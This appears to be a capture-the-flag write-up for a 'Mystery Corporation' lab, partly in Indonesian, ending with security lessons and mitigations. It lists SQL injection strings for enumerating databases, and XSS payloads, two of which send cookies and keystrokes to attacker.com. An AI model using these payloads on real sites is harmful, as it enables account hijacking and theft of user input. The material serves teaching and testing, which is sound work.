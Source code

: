 ## 🔧 Advanced Techniques

### Database Enumeration
```sql
-- Get database version
' UNION SELECT 1,@@version,3,4,5-- 

-- Get current user
' UNION SELECT 1,user(),3,4,5-- 

-- Get all databases
' UNION SELECT 1,schema_name,3,4,5 FROM information_schema.schemata-- 

-- Get file privileges (if available)
' UNION SELECT 1,file_priv,3,4,5 FROM mysql.user WHERE user='root'-- 
```

### XSS Payloads
```javascript
// Basic alert
<script>alert('XSS')</script>

// Cookie stealing
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

// Keylogger
<script>document.onkeypress=function(e){fetch('http://attacker.com/log.php?key='+String.fromCharCode(e.which))}</script>
```

## 🚨 Security Lessons

### Vulnerabilities Found:
1. **SQL Injection** - Input tidak di-sanitize
2. **XSS** - Output tidak di-escape
3. **Information Disclosure** - Backup files exposed
4. **Weak Authentication** - Default credentials
5. **Insufficient Access Control** - Admin functions accessible

### Mitigation Strategies:
1. **Prepared Statements** untuk SQL queries
2. **Input Validation** dan output encoding
3. **Proper File Permissions** dan access controls
4. **Strong Password Policies**
5. **Regular Security Audits**

---

**Congratulations! 🎉**

Anda telah berhasil menyelesaikan Mystery Corporation CTF dan mempelajari berbagai teknik penetration testing yang penting untuk cybersecurity!

*Remember: Use these skills responsibly and only on systems you own or have explicit permission to test.*